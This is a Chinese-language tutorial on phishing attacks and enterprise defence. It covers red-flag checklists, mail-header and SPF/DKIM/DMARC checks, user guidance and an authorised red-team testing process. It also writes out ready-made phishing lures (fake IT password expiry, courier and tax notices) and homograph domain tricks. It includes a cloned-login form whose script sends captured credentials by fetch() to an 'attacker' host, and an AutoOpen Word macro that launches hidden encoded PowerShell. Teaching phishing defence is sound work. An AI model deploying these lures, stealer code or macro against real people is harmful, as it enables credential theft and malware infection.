

# 网络钓鱼实战与防御

> 90% 的安全事件始于一封钓鱼邮件。

---

## 企业钓鱼攻防框架



## 钓鱼邮件识别特征

### 可疑指标清单

| 检查项 | 钓鱼特征 | 正常特征 |
|--------|---------|---------|
 | 发件人 | 拼写近似域名（gmai1.com） | 准确域名 |
| 正文 | 紧急语气、拼写错误 | 专业措辞 |
| 链接 | 悬停显示不符 | 显示=实际 |
| 附件 | 意外 doc/xlsm（含宏） | 有上下文 |
| 签名 | 无签名/签名信息不全 | 完整签名 |
| 时间 | 非工作时间发送 | 工作时间 |

### 深度检测技巧

```bash
# 1. 查看邮件原始头（原始邮件 → 查看 → 编码/原文）
# SPF/DKIM/DMARC 验证
Received-SPF: pass (google.com: domain of x@example.com designates 209.85.220.41 as permitted sender)
DKIM-Signature: v=1; a=rsa-sha256; d=example.com;
Authentication-Results: mx.google.com; spf=pass smtp.mailfrom=example.com

# 2. 链接预分析（**悬停查看实际URL**，不要点击！）
# 3. 沙箱上传可疑附件
curl -F "file=@suspect.doc" https://any.run/api
```

## 高仿真钓鱼模板

### 冒充 IT 部门

```html
<!-- 伪装密码过期通知 -->
<div style="background:#f44;padding:20px;color:#fff;text-align:center">
    <h2>🔴 安全警报：您的密码将在 24 小时内过期</h2>
    <p>为保障账户安全，请立即验证身份</p>
    <a href="http://phishing-url.com" style="background:#fff;color:#f44;padding:10px 20px">
        立即验证 →
    </a>
</div>
```

### 冒充快递/物流

```
【顺丰速运】您好，您有一个包裹因地址不详派送失败，
请点击链接补充地址信息（逾期将退回）：
http://phishing-url.com/tracking/xxx
```

### 冒充税务/财务

```
【税务局】您有一笔退税待处理，金额￥3,847.50。
请用企业微信扫码认证领取：
[二维码图片]
```

## 钓鱼攻击技术

### 1. 域名伪装

```bash
# IDN 同形字攻击
apple.com         → арре.com（使用西里尔字母）
google.com        → gооgle.com（使用西里尔字母o）
paypal.com        → paypa1.com（数字1代替l）

# 子域名伪装
www.paypal.com.phishing.com  # 真实域名是 phishing.com
login.microsoft.com.verify.security-check.xyz
```

### 2. 凭证窃取页面

```html
<!-- 克隆真实登录页 -->
<form action="https://attacker/steal.php" method="POST">
    <input type="text" name="username" placeholder="企业邮箱">
    <input type="password" name="password" placeholder="密码">
    <input type="submit" value="登录">
</form>
<script>
// 窃取后跳转到真实页面，受害者以为只是登录失败
fetch('https://attacker/log?u=' + username.value + '&p=' + password.value);
window.location = 'https://real-login.com';
</script>
```

### 3. 带宏Office文档

```vba
' Word 宏（打开时自动执行）
Sub AutoOpen()
    Dim shell As Object
    Set shell = CreateObject("WScript.Shell")
    shell.Run "powershell -NoP -NonI -W Hidden -Exec Bypass " & _
              "-Enc [BASE64_PAYLOAD]"
End Sub
```

## 企业防御措施

### 邮件安全配置

```yaml
SPF:  "v=spf1 include:_spf.google.com ~all"
DKIM: 启用 Google Workspace DKIM 签名
DMARC: "v=DMARC1; p=reject; rua=mailto:dmarc@company.com"
```

### 用户端防护

```
✅ 从不点击邮件中的链接（手动输入域名访问）
✅ 悬停查看链接真实地址
✅ 可疑邮件 → 转发给 security@company.com 分析
✅ 开启 MFA（即使凭证泄漏也无法登录）
✅ 使用硬件安全密钥（YubiKey）代替短信验证码
```

### 红队钓鱼测试流程

```
1. 获得授权（书面）
2. 选择目标（按部门/岗位）
3. 设计场景（IT通知/财务/人事/快递）
4. 搭建基础设施（邮件服务器+钓鱼页面+DNS）
5. 发送测试邮件（分批次）
6. 统计点击率/提交率/报告率
7. 输出报告并针对性培训
8. 复测（1个月后）
```
